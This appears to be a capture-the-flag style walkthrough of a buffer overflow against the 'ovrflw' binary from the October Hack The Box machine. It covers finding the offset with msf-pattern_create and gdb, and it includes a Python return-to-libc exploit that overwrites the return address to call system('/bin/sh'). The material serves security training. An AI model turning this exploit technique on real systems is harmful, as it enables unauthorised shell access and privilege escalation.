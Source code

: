 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```


### Python Exploit Code
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)```

